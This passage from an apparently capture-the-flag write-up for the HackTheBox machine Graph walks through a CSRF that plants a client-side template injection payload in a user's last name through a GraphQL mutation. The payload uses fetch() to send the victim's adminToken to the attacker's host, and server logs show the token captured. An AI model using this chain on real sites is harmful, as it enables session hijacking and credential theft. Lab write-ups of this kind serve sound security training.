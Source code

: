 That Javascript will generate a CRSF to hit the API to change Larry’s last
name to the CSTI payload.

Once that succeeds, when Larry next checks anything on the dashboard, the CSTI
will fire, sending Larry’s `adminToken` to me.

#### CSRF JavaScript

I’ll write a small JavaScript file that will generate this the request to
change the last name:

    
    
    var req = new XMLHttpRequest();
    req.open('POST', 'http://internal-api.graph.htb/graphql', false);
    req.setRequestHeader("Content-Type","text/plain");
    req.withCredentials = true;
    var body = JSON.stringify({
            operationName: "update",
            variables: {
                    firstname: "larry",
                    lastname: "{{constructor.constructor('fetch(\"http://10.10.14.6/token?adminToken=\" + localStorage.getItem(\"adminToken\"))')()}}",
                    id: "62e18b328f897413e4559cd6",
                    newusername: "larry"
            },
            query: "mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {update(newusername: $newusername, id: $id, firstname: $firstname, lastname:$lastname){username,email,id,firstname,lastname,adminToken}}"
    });
    req.send(body);
    

It’s important to send it as `text/plain` and not `application/json`. I’m not
100% sure why, but a lot of writeups on bug bounties that I came across made
this switch, and it does still work at the server.

#### Exploit

I’ll send a link to Larry:

![image-20220727202118391](https://0xdfimages.gitlab.io/img/image-20220727202118391.png)

A few seconds later, there’s a request for `csrf.js` at my webserver:

    
    
    10.10.11.157 - - [27/Jul/2022 23:00:30] "GET /csrf.js HTTP/1.1" 200 -
    

Then, a few seconds after that, the token:

    
    
    10.10.11.157 - - [27/Jul/2022 23:00:36] code 404, message File not found
    10.10.11.157 - - [27/Jul/2022 23:00:36] "GET /token?adminToken=c0b9db4c8e4bbb24d59a3aaffa8c8b83 HTTP/1.1" 404 -
    

## Shell as user
